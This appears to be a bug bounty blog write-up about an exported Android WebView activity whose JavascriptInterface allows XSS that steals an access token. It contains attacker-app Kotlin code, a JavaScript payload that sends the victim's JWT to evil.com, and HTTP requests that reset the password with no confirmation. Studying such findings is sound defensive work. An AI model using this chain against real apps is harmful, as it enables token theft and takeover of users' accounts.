```yaml
---
layout: post
title: WebView XSS, account takeover 
date: 2022-11-26 13:00 -0400
---
```


Some context: I have been hunting on this one private program for about 6 months. Some time ago i decided to learn how to test mobile apps.

Mobile apps are interesting because you can decompile the java bytecode and perform a very thorough code review on it.

It does have some limitations, sometimes the code can be obfuscated (or optimized?) which makes it harder to read it. But most of the time it works pretty well.

Even if the code is obfuscated you can clean up with tools like Enigma ty minecraft.

---

Actual analysis:
When testing on android apps. You usually want to look at exported activities.
While testing this app I found that one of the WebView activities were exported.
```xml
<activity android:exported="true" android:name=".WebViewDeepLinkHandlerActivity"/>
```
This activity called a WebViewFragment and WebViewFragment implemented a JavascriptInterface.
The code was something like this:
```java
static final void getToken(String str) {
    String accessToken = AccountManager.getAccessToken();
    String str2 = accessToken;
    if (accessToken == null) {
        str2 = "";
    }
    baseJavascriptAccessor.evaluateCallbackJs(getEnvCallbackData$default(baseJavascriptAccessor, str2, 0, 2, null), str, baseJavascriptAccessor.webView);
}
    
static final void evaluateCallbackJs(JsCallbackData jsCallbackData, String str, WebView webView) {
    String str2;
    if (str != null) {
        if (jsCallbackData != null) {
            Gson gson = new Gson();
            str2 = str + " (" + (!(gson instanceof Gson) ? gson.toJson(jsCallbackData) : GsonInstrumentation.toJson(gson, jsCallbackData)) + ')';
        } else {
            str2 = str + " ()";
        }
        if (webView != null) {
            WebviewExtKt.postEvaluateJavaScript(webView, str2);
        }
    }
}
```
What this code does is, it evals the string as javascript like:
attacker_controlled_string(JSON.stringify(jsCallback))
So if we can access this method we can call any JS funtion that we want.
You can access methods from a JavascriptInterface on the window object like window.Android.getToken("lalala") but for that we would need to control the url on which the WebView gets opened at. Thankfully for me this Activity allowed me to do just that.
So we can attack the app via or own app, the attacker app looks like:
```kotlin
  fun startExportedActivity(view: View){
        try {
            val intent = Intent()
            val uri = Uri.Builder()
            val url = uri
                .scheme("https")
                .authority("evil.com")
                .build()

            intent.setClassName("com.app", ".WebViewDeepLinkHandlerActivity")
            intent.data = url

            startActivity(intent)
        } catch (e: Exception) {
            println("ERROR: $e")
            val toast: Toast = Toast.makeText(this, "something went wrong, check logcat", Toast.LENGTH_SHORT)
            toast.show()
        }
    }
```
What this does is, it calls the exported activity, setting our controlled url (evil.com) on the intent. That will make the Activity open or url inside the WebView.
On evil.com we have the following code:
```javascript
<script>
 setTimeout(()=>{
   window.Android.getToken('function ext(jwt){fetch(`https://evil.com/?jwt=${JSON.stringify(jwt)}`, {mode:"no-cors"})};ext')
 }, 5000)
</script>
```
Giving us the JWT token of the victim.
Account takeover
 Previous on my testing I had found an endpoint that allowed an user to change its password without any kind of confirmation.
 The default request looked something like:
```http
PATCH /api/customers HTTP/2
Host: victim.com
Authorization: Bearer <JWT>

{
  "currentPassword": "password",
  "newPassword": "newpassword",
}
```
but it only cared for newPassword field so the following would work:
```http
PATCH /api/customers HTTP/2
Host: victim.com
Authorization: Bearer <JWT>

{
  "newPassword": "newpassword"
}
```
So we use the JWT token and get full control of the victim account.
Not the most exciting vulnerability but understanding how JavascriptInterface works was fun.
 
Awarded $2000 + $500 bonus severity considered as high, personally i think this was a critical, but i was content with the bonus.
Intent: Intent is how apps on Android communicate with each other.
Webview: Its an embeddable browser with limited features.

References: [Android-security-checklist-webview](https://blog.oversecured.com/Android-security-checklist-webview/)
